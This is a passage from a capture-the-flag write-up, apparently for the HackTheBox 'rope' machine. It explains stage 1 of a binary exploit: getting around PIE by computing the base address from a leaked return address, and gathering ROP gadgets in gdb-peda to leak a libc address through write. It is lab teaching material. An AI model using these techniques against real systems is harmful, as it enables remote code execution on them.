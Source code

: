 ### Stage 1: Leak Libc

Now I know the memory space of the main program, but not the libc. I
also know the canary and can overwrite the return address. I'll use a
rop chain to leak a libc address, and then can calculate the addresses
of any functions or strings in libc I want. In the program, it uses
`write` to send data to the socket. I'll use a `write` call to send the
GOT table address for the `write` function.

#### Program Base Address

Because PIE is enabled it means that even if my gadgets are in the main
program, they still move around in memory.

I'll use my leaked return address to find the offset to the program
base. The return address I leak will always be the same distance into
that memory space. So I can simply look at that address and the memory
map, and calculate the offset.



    gdb-peda$ x/3xg $rbp-8
    0x7ffccfb6cbe8: 0x18bb289986192300      0x00007ffccfb6cc20
    0x7ffccfb6cbf8: 0x000055d9d3d0d562
    gdb-peda$ info proc mappings
    process 20559
    Mapped address spaces:

              Start Addr           End Addr       Size     Offset objfile
          0x55d9d3d0c000     0x55d9d3d0d000     0x1000        0x0 /media/sf_CTFs/hackthebox/rope-10.10.10.148/contact
          0x55d9d3d0d000     0x55d9d3d0e000     0x1000     0x1000 /media/sf_CTFs/hackthebox/rope-10.10.10.148/contact
          0x55d9d3d0e000     0x55d9d3d0f000     0x1000     0x2000 ...[snip]...



I can see here that the return address is 0x000055d9d3d0d562, and base
address is 0x55d9d3d0c000, so the offset is 0x1562. And because that
offset is always the same, and the base address will always end in 0x00,
I can know that the least significant byte is always 0x62 (which is what
I used above).

So now I can calculate for any run that the base address will be the
leaked address minus 0x1562.

#### Get Gadgets

I'll need gadgets that allow me to set `rdi`, `rsi`, and `rdx`, as well
as the GOT address for `write` to leak, and the `PLT` address for
`write` to call. I'll get gadgets by typing `rop` at the `gdb-peda$`
prompt:



    gdb-peda$ rop                                                     
    Gadgets information                                                                            
    ============================================================                                                 
    0x00000000000011d3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
    0x00000000000011d4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
    ...[snip]...
    0x000000000000124f : pop rbp ; ret
    0x000000000000164b : pop rdi ; ret   <-- rdi
    0x0000000000001265 : pop rdx ; ret   <-- rdx
    0x0000000000001649 : pop rsi ; pop r15 ; ret   <-- rsi (if I don't mind stomping r15)
    0x0000000000001645 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
    0x0000000000001016 : ret
    0x0000000000001072 : ret 0x2f
    ...[snip]...
